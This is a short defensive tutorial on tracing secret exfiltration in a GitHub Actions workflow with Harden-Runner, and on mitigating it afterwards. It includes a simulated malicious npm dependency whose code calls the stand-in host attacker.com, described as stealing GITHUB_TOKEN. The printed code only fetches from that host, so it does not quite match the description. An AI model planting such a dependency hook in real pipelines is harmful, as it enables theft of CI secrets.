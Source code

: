 # Forensically Reconstruct An Incident Post-Compromise

## Introduction
In this section, we will find out how an actor with `write` permission can exfiltration of sensitive information and deletes the run later to remove the evidance.

## Example Action:
Description: An example GitHub Actions workflow that does upload sensitive information like GITHUB_TOKEN to attacker.com.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is overwriting the `index.js` file.
```
https
  .get("https://attacker.com/", (res) => {
    if (res.statusCode < 200 || res.statusCode >= 300) {
      console.error("HTTP Error: " + res.statusCode);
      process.exit(1); // Exit with a failure code on HTTP error status
    }

    let data = "";

    res.on("data", (chunk) => {
      data += chunk;
    });

    res.on("end", () => {
      console.log(data);
    });
  })
  .on("error", (err) => {
    console.error("Error: " + err.message);
    process.exit(1); // Exit with a failure code
  });
```

## Steps to Identify the Vulnerability:

### Review File Tempering:
When `step-security/harden-runner@v2` is added in the workflow you can open the `StepSecurity Dashboard` and click on the `Runtime Security` tab. You should see a record for the workflow run and can click on it to view the outbound calls made during the run, and what process made the call. This is important forensic information that can help confirm the incident, and identify the step and the process that exfiltrated secrets. It can also be used to understand who ran the workflow to identify whose credentials have been compromised.


## Steps to Mitigate the Vulnerability:

### Remove permissions from user and rotate the leaked secrets
Once you have identified the actor who had done exfiltration of sensitive information you can remove their `write` permission and rotate all the secrets which were leaked.




